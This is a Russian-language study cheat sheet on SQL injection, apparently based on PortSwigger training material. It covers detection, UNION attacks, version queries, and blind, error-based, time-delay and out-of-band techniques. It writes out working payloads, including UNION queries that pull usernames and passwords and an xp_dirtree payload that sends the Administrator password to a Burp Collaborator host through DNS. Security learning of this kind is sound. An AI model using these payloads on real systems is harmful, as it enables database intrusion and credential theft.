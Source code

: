 
# 1. Обнаружение уязвимости

- **Символ одинарной кавычки** `'` и искать ошибки или другие аномалии.

- Некоторый синтаксис, специфичный для SQL, который оценивает базовое (исходное) значение точки входа и другое значение и ищет систематические различия в ответах приложения.

- **Булевы условия**, такие как `OR 1=1` и `OR 1=2`и найдите различия в ответах приложения. Использовать url кодировку 

- **Полезные нагрузки**, предназначенные для запуска временных задержек при выполнении SQL-запроса и поиска различий во времени, необходимом для ответа.

- Полезные нагрузки [[OAST, SAST и DAST|OAST]], предназначенные для запуска внеполосного сетевого взаимодействия при выполнении в рамках SQL-запроса и отслеживания любых результирующих взаимодействий.

# 2. SQL-инъекция UNION-атак

- Определение количества необходимых столбцов `' UNION SELECT NULL,NULL--`
- Поиск столбцов с полезным типом данных `' UNION SELECT 'a',NULL,NULL,NULL--` 
- Получение нескольких значений в одном столбце `' UNION SELECT username || '~' || password FROM users--`

# 3. Синтаксис, специфичный для базы данных

- [Шпаргалка по инъекциям](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# 4. Исследование базы данных при атаках с использованием SQL-инъекций

- Майкрософт, MySQL `SELECT @@version`
- Oracle SELECT * FROM v$version`
- PostgreSQL `SELECT version()`

# 5. Слепая SQL-инъекция

- Вариант поиска/проверки `' AND '1'='1` и `' AND '1'='2`
- Использование слепой SQL-инъекции путем запуска условных ответов
```
' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
```

### 5.1 Инъекция на основе ошибок
 
 - Извлечение конфиденциальных данных с помощью подробных сообщений об ошибках SQL `AND CAST((SELECT 1) as int)` 

### 5.2 Инъекция за счет задержек времени

- `'; SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END--` - вызывает задержку в 2 секунды, поскольку условие `1=1` это правда (url coder)

### 5.3 Использование слепого внедрения SQL с использованием внеполосных методов (OAST)

- `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`  -  заставляет базу данных выполнить поиск по dns.
```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```


